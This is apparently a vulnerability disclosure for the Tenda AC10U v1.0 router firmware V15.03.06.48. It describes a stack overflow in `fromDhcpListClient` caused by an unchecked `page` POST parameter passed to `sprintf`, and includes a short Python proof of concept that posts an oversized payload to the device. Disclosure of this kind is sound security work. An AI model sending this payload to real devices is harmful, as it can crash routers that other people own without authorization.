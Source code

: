 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware V15.03.06.48

## Vulnerability details

The Tenda AC10U v1.0 Firmware V15.03.06.48 firmware has a stack overflow vulnerability in the `fromDhcpListClient` function. The `page` variable receives the `page` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `page` can trigger this security vulnerability.

![image-20240313220335536](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313220335536.png)

![image-20240313220400922](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313220400922.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/DhcpListClient"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240313220458982](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313220458982.png)

